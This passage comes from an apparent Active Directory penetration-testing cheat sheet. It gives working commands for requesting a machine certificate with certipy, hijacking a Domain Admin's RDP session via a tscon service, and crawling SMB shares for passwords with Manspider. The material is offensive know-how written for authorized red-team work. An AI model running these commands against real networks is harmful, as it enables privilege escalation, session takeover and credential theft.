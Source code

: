 Request a certificate with the created computer on template Machine

```
certipy req -u 'domain.local/fakecomputer$:<password>@dc.corp.local' -ca <CA> -template Machine
```

More info on this attack here: https://mayfly277.github.io/posts/GOADv2-pwning-part6/
    
## Hijack a Domain Admin's RDP session
    
Login via RDP as a user with local admin rights and open an admin cmd prompt.
    
Run `query user` to show RDP sessions.
    
Create a service that will hijack the DA's session: `sc create sess binpath= "cmd.exe /k tscon <session id to hijack> /dest:<your session name>`
    
Start the service: `net start sess`
    
Your RDP session should be replaced with the session of the target user.

___

# Post-exploitation
___

A note on post-exploitation: Getting Domain/Enterprise Admin should never be the end goal. Showing yourself getting DA in the report may mean nothing to the executive who is responsible for assigning resources such as people or funding for remediation. This is why you need to show what specifically you were able to do with that DA access (show impact). Some examples: (Redacted) screenshots of data you accessed in databases with company or customer data, sensitive data in file shares, access to financial systems, etc.

## File shares

### Linux

[Manspider](https://github.com/blacklanternsecurity/MANSPIDER) crawls SMB shares for juicy information.

```
./manspider.py --threads 256 192.168.1.0/24 -u admin -p password -c passw login
```

### Windows

[Snaffler](https://github.com/SnaffCon/Snaffler) is a tool for pentesters and red teamers to help find delicious candy needles (creds mostly, but it's flexible) in a bunch of horrible boring haystacks (a massive Windows/AD environment).

## MSQL servers

ToDo
